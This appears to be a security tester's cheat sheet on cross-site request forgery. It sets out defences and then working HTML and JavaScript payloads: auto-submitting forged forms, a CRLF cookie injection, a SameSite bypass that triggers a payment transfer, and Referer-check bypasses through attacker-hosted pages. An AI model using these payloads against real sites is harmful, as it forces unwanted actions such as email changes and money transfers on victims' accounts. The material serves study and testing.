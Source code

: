 # CSRF

## <mark style="color:yellow;">**Exploit**</mark>

**With POST**

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**With GET**

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## <mark style="color:yellow;">Defences</mark>

<details>

<summary>CSRF tokens</summary>

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

</details>

<details>

<summary>SameSite cookies</summary>

Controls whether or not a cookie is sent with cross-site requests

If the website doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default.

* `Strict` Means that the browser sends the cookie only for same-site requests

-   `Lax` Means that browser sends the cookie in cross-site requests, if:

    * The request uses the `GET` method.
    * The request resulted from a top-level navigation by the user, such as clicking on a link.

    The cookie is not sent on cross-site requests, such as on requests to load images or frames.
- `None` Means that the browser sends the cookie with both cross-site and same-site requests. The `Secure` attribute must also be set when setting this value, like so `SameSite=None; Secure`

</details>

<details>

<summary>Referer-based validation</summary>

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

</details>

## <mark style="color:yellow;">CSRF tokens bypass</mark>

* Switch from `POST` to the `GET` method
* Remove the parameter containing the token
* Invent a token in the required format (the app doesn't keep valid server-side tokens).
* Log in to the application with your account, obtain a valid token, and then feed that token to the victim user in their CSRF attack  (some apps don't validate if the token belongs to the same session as the requesting user).
*   Are there two token: one in a cookie and one in hidden input? (this can also have the same value)

    * Some apps do tie the CSRF token to a cookie, but not to the session cookie.
    * Can you set a cookie? E.g. Header injection with `CRLF`.(`%0d%0a`)
    * ```
      /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
      ```
    * Log in to the application with your account -> obtain a valid token and associated cookie.
    * Generate CSRF PoC and remove the auto-submit `<script>` block. Then add the following code to inject the cookie.

    ```html
    <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    ```

## <mark style="color:yellow;">SameSite cookies bypass</mark>

### <mark style="color:yellow;">Lax bypass</mark>

* Using GET requests (bypass lax)

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

* GET method override (bypass lax)
  * Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  * ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```

### <mark style="color:yellow;">Strict bypass</mark>

Bypass via client-side redirect. Consider a page `https://vulnerable-website.com/post/confirm?postId=10` that load this script.

```javascript
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

{% hint style="info" %}
**Note**: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.
{% endhint %}

## <mark style="color:yellow;">Referer-based validation bypass</mark>

* Some apps validate the Referer header if present, but skip if omitted

```html
<meta name="referrer" content="never">
```

* Validation of Referer can be circumvented
  * ```
    http://vulnerable-website.com.attacker-website.com/csrf-attack
    http://attacker-website.com/csrf-attack?vulnerable-website.com
    http://attacker-website.com/vulnerable-website.com
    ```
  * To sed referer you need to add `Referrer-Policy: unsafe-url`. One way to set it in html: `<meta name="referrer" content="unsafe-url"/>`

{% hint style="success" %}
**Tip**: Instead of use `http://attacker-website.com/vulnerable-website.com` that looks strange you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/vulnerable-website.com')</script>`

<pre class="language-html"><code class="lang-html">&#x3C;!-- http://attacker-website.com/ -->
<strong>&#x3C;html>
</strong>  &#x3C;meta name="referrer" content="unsafe-url"/>
  &#x3C;body>
    &#x3C;form action="https://vulnerable-website.com/change-email" method="POST">
      &#x3C;input type="hidden" name="email" value="test@test.com" />
      &#x3C;input type="submit" value="Submit request" />
    &#x3C;/form>
    &#x3C;script>
      history.pushState('', '', '/vulnerable-website.com');
      document.forms[0].submit();
    &#x3C;/script>
  &#x3C;/body>
&#x3C;/html>
</code></pre>
{% endhint %}

Firefox 87 new default Referrer Policy `strict-origin-when-cross-origin` trimming user sensitive information like path and query string to protect privacy. ([https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/](https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/))
